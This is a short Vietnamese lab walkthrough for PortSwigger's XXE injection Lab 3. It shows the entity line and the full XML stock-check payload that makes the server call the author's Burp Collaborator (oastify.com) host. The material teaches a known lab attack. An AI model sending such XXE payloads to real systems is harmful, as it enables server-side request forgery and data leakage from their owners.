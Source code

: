 #### Ví dụ : Lab3 XXE injection portswigger

Lab này vẫn là 1 trang check stock, và yêu cầu của nó là thực hiện XXE sao cho labs phải gửi request đến Burp Collaborator của mình\
Ta dùng dòng sau để inject:
```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ]>
```
> Trong đó ``BURP-COLLABORATOR-SUBDOMAIN`` là domain của Burp Collaborator của mỗi người

Payload:
```xml
<?xml version="1.0" encoding="UTF-8"?>
  <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://2jmqyw22mlhogzkifmin6pp0ur0io7.oastify.com"> ]>
  <stockCheck>
    <productId>
      &xxe;
    </productId>
    <storeId>1</storeId>
  </stockCheck>
```
Khi inject thành công thì Burp Collborator sẽ bắt được request:

![lab3](./img/lab3.png)

